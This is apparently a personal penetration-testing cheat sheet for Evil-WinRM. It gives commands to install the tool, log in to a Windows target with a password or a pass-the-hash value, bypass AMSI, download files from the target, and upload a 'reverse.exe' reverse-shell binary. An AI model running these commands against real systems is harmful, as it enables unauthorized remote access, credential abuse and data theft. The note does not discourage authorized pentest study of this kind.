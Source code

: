 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Steps

```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```

```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git && cd -
```

Login with either password or Hash.
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -p '$PASSWORD'
```

```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -H '$HASH'
```

Bypass AMSI, used to run PowerShell scripts.

#### Downloading files - ==MUST USE FULL PATHS==
```powershell - windows
download C:\Troubleshooting\powershell-logs.csv /home/kali/Desktop/powershell-log
```

#### Uploading files - ==MUST USE FULL PATHS==
```powershell - windows
upload /home/kali/Desktop/reverse.exe C:\Troubleshooting\reverse.exe
```

SEE ALSO:
[[3._EvilWinRM]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
